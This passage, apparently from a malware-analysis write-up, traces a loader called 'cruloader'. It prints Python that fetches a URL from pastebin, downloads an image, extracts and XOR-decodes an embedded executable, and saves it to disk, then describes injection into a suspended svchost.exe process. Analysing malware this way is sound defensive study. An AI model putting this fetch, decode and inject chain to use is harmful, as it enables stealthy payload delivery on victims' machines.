 
This is the image downloaded from the second URL!


```python
  first_url = 'https://pastebin.com/raw/mLem9DGk'
  url_handle = urllib.request.urlopen(first_url)
  second_url = url_handle.read().decode()

  image_file = get(second_url).content

  result = bytearray()
  final_executable = image_file[image_file.index(b'cruloader'[::-1]) + 9:]

  for each in final_executable:
      result.append(each ^ 0x61)


  last_stage = open('.\last_stage.exe', 'wb')
  last_stage.write(result)
  last_stage.close()
```


Next, we enter a function that decrypts the string **C:\Windows\System32\svchost.exe** and create a suspended process with this name! We know that the next stage executbale will be injected into this process and launched!


![alt text](/uploads/zero2auto31.PNG)
